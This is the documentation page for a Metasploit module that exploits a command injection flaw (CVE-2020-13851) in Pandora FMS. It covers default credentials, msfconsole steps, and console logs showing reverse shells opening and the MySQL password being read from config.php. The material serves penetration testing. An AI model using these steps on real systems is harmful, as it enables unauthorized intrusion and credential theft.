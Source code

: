 ## Vulnerable Application
This module exploits a vulnerability (CVE-2020-13851) in Pandora FMS versions 7.0 NG 742, 7.0 NG 743, and 7.0 NG 744
(and perhaps older versions) in order to execute arbitrary commands.

The module first connects to the target's `index.php` page in order to verify the version number, which should be displayed here.
If the version indicates the target is likely vulnerable, the module will try to authenticate using the credentials provided by the user.
If no custom credentials are provided, the module will use the default Pandora FMS credentials, which are `admin:pandora`.

After authenticating, the module attempts to exploit CVE-2020-13851, which is a command injection vulnerability
in the `Events` feature of Pandora FMS. Specifically, this flaw allows users to execute arbitrary commands via
the `target` parameter in HTTP POST requests to the `Events` function.
In order to obtain remote code execution, the module will attempt to issue a malicious HTTP POST request to the `Events` function,
with the `target` parameter set to contain the payload.

If a shell is obtained, the module will try to obtain the local MySQL database password via a simple `grep` command on the plaintext
`/var/www/html/pandora_console/include/config.php` file.
The default MySQL administrative user is `root` and the default password for the official CentOS virtual appliance ISO is `pandora`.
For the official Docker container, the default MySQL password is `avwwoyqk`. This password can subsequently be used
in order to query the database and to escalate the privilege of any Pandora FMS account to an administrator.

Valid credentials for a Pandora FMS account are required for the module to work. The account does not need to have admin privileges.
This module has been successfully tested on Pandora 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version).

Vulnerable software for testing can be download here: https://sourceforge.net/projects/pandora/.
The easiest ways to install Pandora FMS are as a Docker image or as an ISO. Detailed instructions are available here:
https://pandorafms.com/docs/index.php?title=Pandora:Documentation_en:Installing.
The ISO installation instructions are under sections 1.8 and 1.9, those for Docker are under 1.10.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/pandora_fms_events_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Pandora FMS account]`
6. Do: `set PASSWORD [password for the Pandora FMS account]`
7. Do: `set LHOST [IP]`
8. Do: `exploit`

## Options
### PASSWORD
The password for the Pandora FMS account to authenticate with. This option is required. The default value is `pandora`.

### TARGETURI
The base path to Pandora FMS. The default value is `/pandora_console/`.

### USERNAME
The username for the Pandora FMS account to authenticate with. This option is required. The default value is `admin`.

## Scenarios
### Pandora FMS 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version). Target: Linux (x64)
```
msf exploit(linux/http/pandora_fms_events_exec) > show options

Module options (exploit/linux/http/pandora_fms_events_exec):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   PASSWORD   pandora            yes       Password to authenticate with
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.13       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                 yes       The target port (TCP)
   SRVHOST    0.0.0.0            yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080               yes       The local port to listen on.
   SSL        false              no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /pandora_console/  yes       Base path to Pandora FMS
   URIPATH                       no        The URI to use for this exploit (default is random)
   USERNAME   admin              yes       Username to authenticate with
   VHOST                         no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf exploit(linux/http/pandora_fms_events_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Authenticated as user admin.
[*] Executing payload...
[*] Sending stage (3012516 bytes) to 192.168.1.13
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Meterpreter session 18 opened (192.168.1.12:4444 -> 192.168.1.13:39208) at 2020-07-01 10:14:44 -0400

meterpreter > 
[*] Tip: You can try to obtain the MySQL DB password via the shell command `grep dbpass include/config.php`. The default privileged user is `root`.
getuid
Server username: no-user @ localhost.localdomain (uid=48, gid=48, euid=48, egid=48)
meterpreter >
```
### Pandora FMS 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version). Target: Linux (cmd)
```
msf exploit(linux/http/pandora_fms_events_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Authenticated as user admin.
[*] Executing payload...
[*] Command shell session 1 opened (192.168.1.12:4444 -> 192.168.1.13:38776) at 2020-06-16 13:01:52 -0400
[*] Trying to read the MySQL DB password via `cat include/config.php | grep dbpass`. The default privileged user is `root`.

$config["dbpass"]="pandora";
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
